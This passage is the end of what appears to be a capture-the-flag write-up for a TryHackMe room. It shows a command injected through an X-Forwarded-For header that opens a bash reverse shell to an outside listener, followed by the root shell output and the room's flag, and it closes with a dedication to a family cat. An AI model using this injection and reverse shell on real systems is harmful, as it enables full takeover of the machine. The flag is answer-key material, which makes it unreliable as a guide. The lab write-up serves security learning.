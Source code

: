 
```bash
 curl -s 'http://127.0.0.1:8080/index.php' -X POST -d 'username=lulu&password=password' -H 'X-Forwarded-For: test'

SQL Injection detected. This incident will be logged!
```

```bash
kitty@kitty:/var/www/development$ cat logged
test
```

```bash
kitty@ip-10-201-19-107:/var/www/development$ curl http://127.0.0.1:8080/index.php -X POST -d 'username=0x&password=test' -H 'X-Forwarded-For:;bash -c "/bin/bash -i >& /dev/tcp/10.201.109.144/6666 0>&1"'

SQL Injection detected. This incident will be logged!kitty@ip-10-201-19-107:/var/www/development$ 
```

```bash
:~/Kitty# nc -nlvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.201.19.107 39000
bash: cannot set terminal process group (2659): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-201-19-107:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-201-19-107:~# pwd
pwd
/root
root@ip-10-201-19-107:~# ls
ls
logged
root.txt
snap
root@ip-10-201-19-107:~# cat root.txt
cat root.txt
THM{581bfc26b53f2e167a05613eecf039bb}
```

<br>
<br>

<h2>Task 2 . Thank you</h2>
<p>This room is dedicated to my brother's cat, whose name was Kitty.</p>

<br>

<p align="center" ><img width="300px" src="https://github.com/user-attachments/assets/ab4d22d8-9344-4888-85d3-836b502bc32f"></p>

<br>

<p>Sadly, she passed away on October 4th, 2022. She was a part of our family for 13 years, and we miss her very much.</p>
